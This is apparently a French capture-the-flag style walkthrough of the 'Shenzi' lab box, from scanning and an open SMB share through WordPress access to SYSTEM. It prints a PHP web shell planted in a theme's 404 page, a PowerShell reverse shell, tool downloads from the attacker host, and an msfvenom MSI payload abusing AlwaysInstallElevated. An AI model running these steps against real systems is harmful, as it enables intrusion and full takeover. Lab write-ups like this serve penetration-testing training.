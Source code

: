   # Shenzi

	sudo masscan -p1-65535,U:1-65535 192.168.203.55 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.203.55 -oN nmap.txt
	feroxbuster --silent -u http://192.168.203.55
	
Scans classiques.

	PORT STATE SERVICE VERSION  
	21/tcp open ftp FileZilla ftpd 0.9.41 beta  
	80/tcp open http Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)  
	135/tcp open msrpc Microsoft Windows RPC  
	139/tcp open netbios-ssn Microsoft Windows netbios-ssn  
	328/tcp filtered unknown  
	443/tcp open ssl/http Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)  
	445/tcp open microsoft-ds?  
	3306/tcp open mysql?  
	5040/tcp open unknown  
	11554/tcp filtered unknown  
	14654/tcp filtered unknown  
	18016/tcp filtered unknown  
	19778/tcp filtered unknown  
	31943/tcp filtered unknown  
	36764/tcp filtered unknown  
	40430/tcp filtered unknown  
	48953/tcp filtered unknown  
	49237/tcp filtered unknown  
	49470/tcp filtered unknown  
	49664/tcp open msrpc Microsoft Windows RPC  
	49665/tcp open msrpc Microsoft Windows RPC  
	49666/tcp open msrpc Microsoft Windows RPC  
	49667/tcp open msrpc Microsoft Windows RPC  
	49668/tcp open msrpc Microsoft Windows RPC  
	49669/tcp open msrpc Microsoft Windows RPC  
	60863/tcp filtered unknown  
	64051/tcp filtered unknown

http://192.168.203.55/ => Vide
</br>http://192.168.203.55:443/ => Bad request

Un partage SMB est ouvert : 

	enum4linux 192.168.203.55
	smbclient -L //192.168.203.55 -N
	smbclient //192.168.203.55/Shenzi -N
	smb: \> mget *
	smb: \> exit
	cat *.txt

Il y a un fichier contenant des mots de passe qui mentionne WordPress. Et en effet sur http://192.168.203.55/shenzi/wp-admin on trouve un panel de connexion WordPress. 

En fouillant un peu, on voit que l'on peut modifier certaines pages sur http://192.168.203.55/shenzi/wp-admin/theme-editor.php et notamment la 404.

Je l'ai remplacée par une backdoor : 

	<?php
	        $cmd = ($_REQUEST['cmd']);
	        system($cmd);
	        die;
	?>

En visitant http://192.168.203.55/shenzi/404.php?cmd=whoami j'ai bien le résultat prévu. 

Exécution d'un reverse-shell : 

	curl http://192.168.203.55/shenzi/404.php?cmd=powershell%20-e%20JABjAGw...lACgAKQA%3D
	...
	rlwrap nc -nvlp 443
	...
	powershell -ep bypass
	whoami
	type C:\Users\Shenzi\Desktop\local.txt

	
### Élévation de privilèges : 

	iwr -Uri http://192.168.45.151/winpeas.exe -Outfile .\winpeas.exe
	./winpeas.exe > r.txt
	iwr -Uri http://192.168.45.151/PrivEscCheck.ps1 -Outfile .\PrivEscCheck.ps1
	Import-Module .\PrivEscCheck.ps1
	Invoke-PrivEscCheck -Extended

WinPEAS a trouvé quelque chose d'intéressant : 

> AlwaysInstallElevated set to 1 in HKLM!  
> AlwaysInstallElevated set to 1 in HKCU!

Voir : https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated

	msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.151 LPORT=443 -f msi-nouac > alwe.msi
	sudo cp ~/000_payloads/alwe.msi /var/www/html/
	==========
	iwr -Uri http://192.168.45.151/alwe.msi -Outfile ./alwe.msi
	./alwe.msi
	==========
	rlwrap nc -nvlp 443
	...
	whoami
	type C:\Users\Administrator\Desktop\proof.txt
